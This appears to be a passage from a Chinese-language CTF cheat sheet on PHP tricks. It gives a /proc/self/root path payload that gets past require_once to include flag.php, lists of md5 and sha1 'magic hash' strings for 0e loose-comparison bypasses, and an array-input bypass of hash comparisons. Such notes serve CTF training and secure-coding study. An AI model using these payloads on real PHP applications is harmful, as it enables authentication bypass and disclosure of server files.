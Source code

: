 [php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

## 哈希字符串

### 0e bypass

```php
$_GET['name'] != $_GET['password']
MD5($_GET['name']) == MD5($_GET['password'])
```

PHP在处理哈希字符串时，它把每一个以“0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以“0E”开头的，那么PHP将会认为他们相同，都是0。

这一点在 md5() / sha1() 都适用，以下是可用的payload：

```
# md5 0e payload
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
```

```
# sha1 0e payload
aaroZmOk
aaK1STfY
aaO8zKZF
aa3OFF9m
0e1290633704
10932435112
```

### Array bypass

md5 加密数组时返回 null

```php
$a = Array();
$b = Array();

md5($a) == md5($b); // null == null true
md5($a) === md5($b); // null === null true
```

sha1 同理
